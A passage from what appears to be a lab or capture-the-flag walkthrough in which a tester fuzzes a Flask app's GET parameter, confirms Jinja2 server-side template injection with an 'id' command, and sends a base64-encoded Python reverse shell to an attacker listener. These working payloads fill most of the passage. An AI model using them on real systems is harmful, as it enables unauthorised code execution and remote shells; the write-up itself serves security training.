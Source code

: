 In the error messages above we can retrieve two important information i.e. the Flask web application accepts a GET parameter and uses the well-known Jinja2 template engine. Since the application uses a template engine we can assume that the value of the GET parameter is processed by the template engine. We can fuzz this parameter using a simple template code e.g. {{7*7}} and filter the response by response size.
```bash
┌──(pentester㉿kali)-[~/Preload/Scans/Web]
└─$ffuf -ic -c -u 'http://10.0.2.22:50000/?FUZZ={{7*7}}' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 290 

<SNIP>

cmd                     [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 160ms]
:: Progress: [6453/6453] :: Job [1/1] :: 199 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

We successfully uncover the name of the GET parameter. We can attempt to visit the web application with this parameter to confirm our results.
```bash
┌──(pentester㉿kali)-[~/Preload/Scans/Web]
└─$curl http://10.0.2.22:50000/?cmd='' 
Welcome!!!!!!!!!!!!! 
```

## Exploitation

The web application responds with a text message and not more with an internal server error message. If the web application does not filter the value of this parameter before passing it to the template engine, we will have a server-side template injection vulnerability (SSTI). We can use [Jinja2 SSTI cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)  to attempt different exploitation of SSTI vulnerability. We can test for this vulnerability by attempting to execute code on the server side.
```bash
┌──(pentester㉿kali)-[~/Preload/Scans/Web]
└─$curl -g http://10.0.2.22:50000/?cmd='{{self.__init__.__globals__.__builtins__.__import__("os").popen("id").read()}}'  
uid=1000(paul) gid=1000(paul) groups=1000(paul)
```

Our id command has been executed on the server and the web application appears to be run by the user Paul. Now that we know we have RCE on the server we can attempt to gain a reverse shell.
##### First, we start a listener on our attack host
```bash
┌──(pentester㉿kali)-[~/Preload/]
└─$nc -lvnp 1234
listening on [any] 1234 ...
```
##### Secondly we encode our payload to base64 and send it to the target
```bash
┌──(pentester㉿kali)-[~/Preload/Scans/Service]
└─$echo "python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.0.2.16',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('/bin/bash')\"" | base64 -w 0
cHl0aG9uMyAtYyAiaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoJzEwLjAuMi4xNicsMTIzNCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oJy9iaW4vYmFzaCcpIgo=                        

┌──(pentester㉿kali)-[~/Preload/Scans/Service]
└─$curl -g http://10.0.2.22:50000/?cmd='{{self.__init__.__globals__.__builtins__.__import__("os").popen("echo+cHl0aG9uMyAtYyAiaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoJzEwLjAuMi4xNicsMTIzNCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oJy9iaW4vYmFzaCcpIgo=|base64+-d|bash").read()}}'
```